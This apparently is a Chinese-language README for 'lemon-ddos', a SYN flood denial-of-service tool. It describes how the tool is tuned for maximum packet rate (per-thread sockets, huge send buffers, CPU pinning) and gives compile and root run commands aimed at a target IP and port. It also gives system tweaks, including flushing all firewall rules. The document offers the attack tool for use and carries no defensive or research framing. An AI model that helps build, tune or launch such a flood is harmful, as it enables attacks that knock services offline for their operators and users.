 # lemon-ddos
#性能优化亮点：
1.每个线程独立资源：

 独立套接字
 独立随机数种子
 独立数据包缓冲区
 独立统计计数器
2.网络优化：

 100MB 发送缓冲区 (#define SOCKET_BUFFER_SIZE (100 * 1024 * 1024))
 非阻塞 I/O 模式
 TCP_NODELAY 选项禁用 Nagle 算法
3.CPU 优化：
 线程绑定到特定 CPU 核心
 高性能随机数生成器 (比标准 rand() 快 10 倍)
 预计算数据包长度减少循环开销
4.内存优化：
 栈上固定缓冲区用于校验和计算
 预生成随机负载避免重复计算
# 编译指令：
```
gcc -O3 -march=native -mtune=native -pthread -o syn_flood syn_flood.c
```
# 运行建议：
## 以 root 权限运行：
```
sudo ./syn_flood 192.168.1.100 80 16 60 100 eth0
```
## 系统优化命令：
```
# 增加网络缓冲区
sudo sysctl -w net.core.wmem_max=12582912
sudo sysctl -w net.core.rmem_max=12582912

# 增加最大打开文件数
ulimit -n 1000000

# 禁用防火墙
sudo iptables -F
```
